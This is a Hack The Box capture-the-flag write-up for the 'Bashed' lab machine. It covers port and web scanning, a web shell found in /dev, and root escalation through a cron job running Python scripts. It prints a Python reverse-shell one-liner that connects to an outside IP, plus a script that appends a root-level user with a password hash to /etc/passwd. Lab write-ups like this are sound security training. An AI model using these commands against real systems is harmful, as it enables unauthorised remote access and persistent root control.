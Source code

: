 ```yaml
---
title: Writeup - HTB Bashed
date: 2023-11-11
author: kei5uke
description: Writeup for HTB Bashed
tags:
  - linux
  - writeup
---
```



# bashed

# Enumeration

## Nmap

```bash
┌──(root💀kali)-[~/bashed]
└─# nmap -sV -sC -T4 -p- 10.129.65.207 -oN nmap.txt
Starting Nmap 7.94 ( https://nmap.org ) at 2023-11-10 22:20 EET
Nmap scan report for 10.129.65.207
Host is up (0.038s latency).
Not shown: 65534 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Arrexel's Development Site
|_http-server-header: Apache/2.4.18 (Ubuntu)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 21.04 seconds
```

## Nikto

```bash
┌──(root💀kali)-[~/bashed]
└─# nikto -host 10.129.65.207                      
- Nikto v2.1.6
---------------------------------------------------------------------------
+ Target IP:          10.129.65.207
+ Target Hostname:    10.129.65.207
+ Target Port:        80
+ Start Time:         2023-11-10 22:30:38 (GMT2)
---------------------------------------------------------------------------
+ Server: Apache/2.4.18 (Ubuntu)
+ The anti-clickjacking X-Frame-Options header is not present.
+ The X-XSS-Protection header is not defined. This header can hint to the user agent to protect against some forms of XSS
+ The X-Content-Type-Options header is not set. This could allow the user agent to render the content of the site in a different fashion to the MIME type
+ No CGI Directories found (use '-C all' to force check all possible dirs)
+ Apache/2.4.18 appears to be outdated (current is at least Apache/2.4.37). Apache 2.2.34 is the EOL for the 2.x branch.
+ IP address found in the 'location' header. The IP is "127.0.1.1".
+ OSVDB-630: The web server may reveal its internal or real IP in the Location header via a request to /images over HTTP/1.0. The value is "127.0.1.1".
+ Server may leak inodes via ETags, header found with file /, inode: 1e3f, size: 55f8bbac32f80, mtime: gzip
+ Allowed HTTP Methods: GET, HEAD, POST, OPTIONS 
+ /config.php: PHP Config file may contain database IDs and passwords.
+ OSVDB-3268: /css/: Directory indexing found.
+ OSVDB-3092: /css/: This might be interesting...
+ OSVDB-3268: /dev/: Directory indexing found.
+ OSVDB-3092: /dev/: This might be interesting...
+ OSVDB-3268: /php/: Directory indexing found.
+ OSVDB-3092: /php/: This might be interesting...
+ OSVDB-3268: /images/: Directory indexing found.
+ OSVDB-3233: /icons/README: Apache default file found.
```

## Interesting page

Found web shell page dev directory.

![Screenshot 2023-11-10 at 22.36.50.png](bashed%20efd9ba4e5e124df38fb09460192c2804/Screenshot_2023-11-10_at_22.36.50.png)

# Privilege Escalation

```bash
www-data@bashed:/$ sudo -l
sudo -l
Matching Defaults entries for www-data on bashed:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on bashed:
    (scriptmanager : scriptmanager) NOPASSWD: ALL
```

I ran the PSPY and found hidden cron task.

Seems like root runs python script in the script folder.

```bash
2023/11/10 13:54:01 CMD: UID=0     PID=43970  | /bin/sh -c cd /scripts; for f in *.py; do python "$f"; done
```

I made reverse shell in python but the connection gets cut off immediately.

```bash
www-data@bashed:/scripts$ echo "import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.16.14",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);" > shell.py
<),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);" > shell.py
```

I added a script that writes new root user in /etc/passwd

```bash
www-data@bashed:/scripts$ echo 'open("/etc/passwd","a").write("keisuke:$1$jlX/nz9g$CddSuG5PoTI/9bLGZzDum1:0:0:root:/root:/bin/bash\n")' > root.py
```

# Root shell

![Screenshot 2023-11-11 at 00.11.29.png](bashed%20efd9ba4e5e124df38fb09460192c2804/Screenshot_2023-11-11_at_00.11.29.png)

# Note

I used PSPY for the first time.